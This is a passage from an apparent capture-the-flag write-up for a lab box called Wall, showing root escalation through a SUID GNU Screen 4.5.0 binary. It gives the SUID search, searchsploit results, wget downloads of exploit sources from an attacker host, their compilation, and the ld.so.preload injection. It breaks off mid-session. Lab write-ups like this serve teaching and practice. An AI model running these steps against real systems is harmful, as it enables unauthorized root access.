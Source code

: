 Then we export its configuration (while have a `netcat` listener running).

# Getting root

*On this box, we do not need to get user before getting root. We will grab the
user flag once we are root.*

## Reverse shell

We got a reverse shell, we start enumerating the box. While searching for SUID
file we found a SUID `screen` binary.

    :::text
    find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;

Our [gtfobins](https://gtfobins.github.io/gtfobins/screen/) friend do not tell us that
there is privilege escalation with an SUID screen. Only that we can wrote files.
Which means that we can wrote files as `root` with the SUID set.
(See this [pull request to
gtfobins](https://github.com/GTFOBins/GTFOBins.github.io/pull/76) for more info.)

But looking a the available exploit with `searchsploit` we find an interesting exploit for the
specific `screen` version on the box.
(the `sh` script is a POC using the exploit described in the `txt`).

    :::text
    searchsploit screen 4.5.0
    -------------------------------------------- ----------------------------------------
    Exploit Title                              |  Path
                                                | (/usr/share/exploitdb/)
    -------------------------------------------- ----------------------------------------
    GNU Screen 4.5.0 - Local Privilege Escalati | exploits/linux/local/41152.txt
    GNU Screen 4.5.0 - Local Privilege Escalati | exploits/linux/local/41154.sh
    -------------------------------------------- ----------------------------------------
    Shellcodes: No Result
    Papers: No Result

First of all we get a better reverse shell with python `python -c 'import pty; pty.spawn("/bin/sh")'`
Then we follow the commands in the `sh` script while changing the path from
`/tmp/` to `/tmp/ioio/`. Also we `wget` the `libhax.c` and `rootshell.c` which
we edited on our local system.

    :::text
    www-data@Wall:/usr/local/centreon/www$ cd /tmp/ioio
    cd /tmp/ioio
    www-data@Wall:wget http://10.10.14.169:8081/libhax.c
    wget http://10.10.14.169:8081/libhax.c
    www-data@Wall:wget http://10.10.14.169:8081/rootshell.c
    wget http://10.10.14.169:8081/rootshell.c
    www-data@Wall:/tmp/ioio$ ls
    ls
    libhax.c
    rootshell.c
    www-data@Wall:/tmp/ioio$ gcc -fPIC -shared -ldl -o /tmp/ioio/libhax.so /tmp/ioio/libhax.c
    <SNIP>
    www-data@Wall:/tmp/ioio$ gcc -o /tmp/ioio/rootshell /tmp/ioio/rootshell.c
    <SNIP>
    www-data@Wall:/tmp/ioio$ cd /etc
    cd /etc
    www-data@Wall:/etc$ umask 000
    umask 000
    www-data@Wall:/etc$ /bin/screen-4.5.0 -D -m -L ld.so.preload echo -ne  "\x0a/tmp/ioio/libhax.so" 
    < ld.so.preload echo -ne  "\x0a/tmp/ioio/libhax.so" 
    www-data@Wall:/etc$ /bin/screen-4.5.0 -ls